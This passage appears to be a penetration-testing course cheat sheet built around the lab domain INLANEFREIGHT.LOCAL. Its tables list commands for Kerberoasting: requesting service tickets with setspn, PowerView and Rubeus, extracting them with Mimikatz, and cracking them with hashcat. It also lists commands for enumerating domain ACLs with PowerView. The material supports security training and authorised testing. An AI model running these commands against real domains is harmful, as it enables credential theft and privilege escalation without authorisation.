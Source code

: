 | `hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt --force` | Attempts to crack the Kerberos (`-m 13100`) ticket hash (`sqldev_tgs`) using `hashcat` and a wordlist (`rockyou.txt`) from a Linux-based host. |
| `setspn.exe -Q */*`                                          | Used to enumerate `SPNs` in a target Windows domain from a Windows-based host. |
| `Add-Type -AssemblyName System.IdentityModel  New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"` | PowerShell script used to download/request the TGS ticket of a specific user from a Windows-based host. |
| `setspn.exe -T INLANEFREIGHT.LOCAL -Q */* \| Select-String '^CN' -Context 0,1 \| % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }` | Used to download/request all TGS tickets from a WIndows-based host. |
| `mimikatz # base64 /out:true`                                | `Mimikatz` command that ensures TGS tickets are extracted in `base64` format from a Windows-based host. |
| `kerberos::list /export `                                    | `Mimikatz` command used to extract the TGS tickets from a Windows-based host. |
| `echo "<base64 blob>" \|  tr -d \\n `                         | Used to prepare the base64 formatted TGS ticket for cracking from Linux-based host. |
| `cat encoded_file \| base64 -d > sqldev.kirbi`                 | Used to output a file (`encoded_file`) into a .kirbi file in base64 (`base64 -d > sqldev.kirbi`) format from a Linux-based host. |
| `python2.7 kirbi2john.py sqldev.kirbi`                       | Used to extract the `Kerberos ticket`. This also creates a file called `crack_file` from a Linux-based host. |
| `sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat` | Used to modify the `crack_file` for `Hashcat` from a Linux-based host. |
| `cat sqldev_tgs_hashcat `                                    | Used to view the prepared hash from a Linux-based host.      |
| `hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt ` | Used to crack the prepared Kerberos ticket hash (`sqldev_tgs_hashcat`) using a wordlist (`rockyou.txt`) from a Linux-based host. |
| `Import-Module .\PowerView.ps1  Get-DomainUser * -spn \| select samaccountname` | Uses PowerView tool to extract `TGS Tickets` . Performed from a Windows-based host. |
| `Get-DomainUser -Identity sqldev \| Get-DomainSPNTicket -Format Hashcat` | PowerView tool used to download/request the TGS ticket of a specific ticket and automatically format it for `Hashcat` from a Windows-based host. |
| `Get-DomainUser * -SPN \| Get-DomainSPNTicket -Format Hashcat \| Export-Csv .\ilfreight_tgs.csv -NoTypeInformation` | Exports all TGS tickets to a `.CSV` file (`ilfreight_tgs.csv`) from a Windows-based host. |
| `cat .\ilfreight_tgs.csv`                                    | Used to view the contents of the .csv file from a Windows-based host. |
| `.\Rubeus.exe`                                               | Used to view the options and functionality possible with the tool `Rubeus`. Performed from a Windows-based host. |
| `.\Rubeus.exe kerberoast /stats`                             | Used to check the kerberoast stats (`/stats`) within the target Windows domain from a Windows-based host. |
| `.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap` | Used to request/download TGS tickets for accounts with the `admin` count set to `1` then formats the output in an easy to view & crack manner (`/nowrap`) . Performed from a Windows-based host. |
| `.\Rubeus.exe kerberoast /user:testspn /nowrap`              | Used to request/download a TGS ticket for a specific user (`/user:testspn`) the formats the output in an easy to view & crack manner (`/nowrap`). Performed from a Windows-based host. |
| `Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes` | PowerView tool used to check the `msDS-SupportedEncryptionType` attribute associated with a specific user account (`testspn`). Performed from a Windows-based host. |
| `hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt` | Used to attempt to crack the ticket hash using a wordlist (`rockyou.txt`) from a Linux-based host . |



# ACL Enumeration & Tactics 

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `Find-InterestingDomainAcl`                                  | PowerView tool used to find object ACLs in the target Windows domain with modification rights set to non-built in objects from a Windows-based host. |
| `Import-Module .\PowerView.ps1  $sid = Convert-NameToSid wley` | Used to import PowerView and retrieve the `SID` of a specific user account (`wley`) from a Windows-based host. |
| `Get-DomainObjectACL -Identity * \| ? {$_.SecurityIdentifier -eq $sid}` | Used to find all Windows domain objects that the user has rights over by mapping the user's `SID` to the `SecurityIdentifier` property from a Windows-based host. |
| `$guid= "00299570-246d-11d0-a768-00aa006e0529"   Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * \| Select Name,DisplayName,DistinguishedName,rightsGuid \| ?{$_.rightsGuid -eq $guid} \| fl` | Used to perform a reverse search & map to a `GUID` value from a Windows-based host. |
| `Get-DomainObjectACL -ResolveGUIDs -Identity * \| ? {$_.SecurityIdentifier -eq $sid} ` | Used to discover a domain object's ACL by performing a search based on GUID's (`-ResolveGUIDs`) from a Windows-based host. |